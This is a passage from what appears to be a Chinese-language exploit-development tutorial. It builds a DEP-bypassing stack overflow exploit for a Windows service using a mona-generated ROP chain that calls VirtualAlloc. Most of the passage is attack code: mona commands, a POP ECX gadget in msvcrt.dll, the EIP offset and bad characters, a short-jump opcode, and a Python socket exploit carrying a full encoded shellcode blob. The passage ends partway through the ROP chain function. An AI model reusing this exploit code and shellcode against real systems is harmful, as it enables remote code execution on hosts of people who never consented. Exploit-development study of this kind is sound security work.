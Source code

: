 现在，我们有一个有效的漏洞利用指令链，它将执行VirtualAlloc来更改进程堆栈的状态，并允许我们在其上执行代码。  
在我们之前的漏洞利用中，我们使用从USER32.dll获取的地址来执行`jmp esp`，该地址是为了执行ESP指向的代码。由于我们现在在ESP中拥有的不是代码，而是指向代码的指针，因此我们需要将该地址更改为ret。ret语句的作用是从堆栈顶部获取值并将其放入EIP（指向指令的指针）中。

生成rop.txt：

```php
!mona rop -cpb "\x00\x09\x0a\x0b\x0c\x0d\x20\x2f\x3f" -m *.dll
```

从rop.txt文件中，我们可以找到可利用的`# POP ECX # RETN`这种gadget，我们使用这一条：

```php
0x77c4017f :  # POP ECX # RETN    ** [msvcrt.dll] **   |   {PAGE_EXECUTE_READ}
```

这条指令的含义为：  
`POP ECX`：将从堆栈中弹出栈顶的值并将其存储在 ECX 寄存器中。  
`RETN`：弹出栈顶的值输入到EIP中，执行EIP。

计算跳转到shellcode的偏移（最好用`$+0x28`）：

```php
metasm > Interrupt: use the 'exit' command to quit
metasm > jmp $+0x24
"\xeb\x22"
```

![Pasted image 20240401161024.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-4c5fab10fc67f48c237fb0f157fea506527efcb2.png)

```python
import sys
import socket
import struct

# Bad Chars: \x00\x09\x0a\x0b\x0c\x0d\x20\x2f\x3f'

offset_eip = 967
offset_shellcode = 103 # use to 'A'
EIP = struct.pack('<I', 0x77c4017f) # POP ECX, RET (msvcrt.dll)

JMP = '\xeb\x22' # jmp $+0x24 Jump to shellcode
buffer = 'A' * offset_shellcode

shellcode = ( 
"\xb8\x69\xfc\x2c\xd8\xdb\xc9\xd9\x74\x24\xf4\x5e\x29\xc9"
"\xb1\x31\x31\x46\x13\x83\xc6\x04\x03\x46\x66\x1e\xd9\x24"
"\x90\x5c\x22\xd5\x60\x01\xaa\x30\x51\x01\xc8\x31\xc1\xb1"
"\x9a\x14\xed\x3a\xce\x8c\x66\x4e\xc7\xa3\xcf\xe5\x31\x8d"
"\xd0\x56\x01\x8c\x52\xa5\x56\x6e\x6b\x66\xab\x6f\xac\x9b"
"\x46\x3d\x65\xd7\xf5\xd2\x02\xad\xc5\x59\x58\x23\x4e\xbd"
"\x28\x42\x7f\x10\x23\x1d\x5f\x92\xe0\x15\xd6\x8c\xe5\x10"
"\xa0\x27\xdd\xef\x33\xee\x2c\x0f\x9f\xcf\x81\xe2\xe1\x08"
"\x25\x1d\x94\x60\x56\xa0\xaf\xb6\x25\x7e\x25\x2d\x8d\xf5"
"\x9d\x89\x2c\xd9\x78\x59\x22\x96\x0f\x05\x26\x29\xc3\x3d"
"\x52\xa2\xe2\x91\xd3\xf0\xc0\x35\xb8\xa3\x69\x6f\x64\x05"
"\x95\x6f\xc7\xfa\x33\xfb\xe5\xef\x49\xa6\x63\xf1\xdc\xdc"
"\xc1\xf1\xde\xde\x75\x9a\xef\x55\x1a\xdd\xef\xbf\x5f\x11"
"\xba\xe2\xc9\xba\x63\x77\x48\xa7\x93\xad\x8e\xde\x17\x44"
"\x6e\x25\x07\x2d\x6b\x61\x8f\xdd\x01\xfa\x7a\xe2\xb6\xfb"
"\xae\x81\x59\x68\x32\x68\xfc\x08\xd1\x74"
)

  def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x77c21d16,  # POP EAX # RETN [msvcrt.dll] 
```